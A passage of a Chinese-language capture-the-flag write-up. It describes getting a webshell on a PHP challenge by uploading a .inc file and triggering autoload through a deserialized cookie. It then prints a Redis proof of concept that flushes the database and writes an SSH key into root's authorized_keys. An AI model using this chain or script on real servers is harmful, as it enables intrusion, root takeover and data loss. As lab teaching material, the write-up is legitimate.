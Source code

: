 ![](http://drops.javaweb.org/uploads/images/ab9514f61b0d565f97cdb72e7737f86487b17065.jpg)

getshell
--------

首先通读源码，发现有几个特点：

> 1.  可以上传任意文件，后缀有黑名单检查，文件名是随机字符串md5值
> 2.  数据存储于cookie中，通过php反序列化函数还原并显示

其实考察点比较有意思。  
看到common.inc.php里，包含spl_autoload_register函数，这个函数是自动注册类用的，在当今特别是新型的框架（laravel、composer）中常用。  
这个函数有个特点，如果不指定处理用的函数，就会自动包含“类名.php”或“类名.inc”的文件，并加载其中的“类名”类。  
这就比较有意思了，我们之前的黑名单是不包括“.inc”文件的，所以我们可以按照下面方法进行getshell：

1.上传webshell，后缀为.inc，被重命名为xxxx.inc

![](http://drops.javaweb.org/uploads/images/abe563f483d296fda7dd1aea110da9dd78f5ca5f.jpg)

2.序列化一个类名为xxxx的类对象

![](http://drops.javaweb.org/uploads/images/1e4a3c54aea9d0fb739daafd081d310a77c685ce.jpg)

3.将序列化以后的字符串作为cookie，发送到服务器上

![](http://drops.javaweb.org/uploads/images/49d26761a145daa45be6d8fb4cac11a4d9a0d1f1.jpg)

4.服务器反序列化这个字符串后，将会自动加载xxxx类，由于之前spl_autoload_register函数注册的方法，会自动加载xxxx.inc，从而造成文件包含漏洞，getshell成功

![](http://drops.javaweb.org/uploads/images/d1b27faa0c864e8121bc2cbb59e44e0c5a2e1195.jpg)

在网站根目录的flag-1.php中获得第一个flag。

利用本地redis提权
-----------

拿到webshell以后，查看一下服务器的一些敏感信息。  
比如在phpinfo里看到了，session的处理方式用的redis，并且save_path里暴露了redis的端口和密码：

![](http://drops.javaweb.org/uploads/images/cc28aea9a9025beb025c77e3bf09ffa234f7dcb1.jpg)

于是可以利用这段时间比较火的redis写公钥文件进行提权。  
直接编写一个redis.php，用php来连接redis，执行redis写公钥的POC：

```
<?php 
$redis = new Redis(); 
$redis->connect('127.0.0.1', 21821); 
$redis->auth("Tat141uIyX8NKU"); 
$redis->flushall(); 
$redis->config("SET", "dir", "/root/.ssh/"); 
$redis->config("SET", "dbfilename", "authorized_keys"); 
$redis->set("0", "\n\n\nssh-rsa key_pub\n\n\n"); 
$redis->save();

```
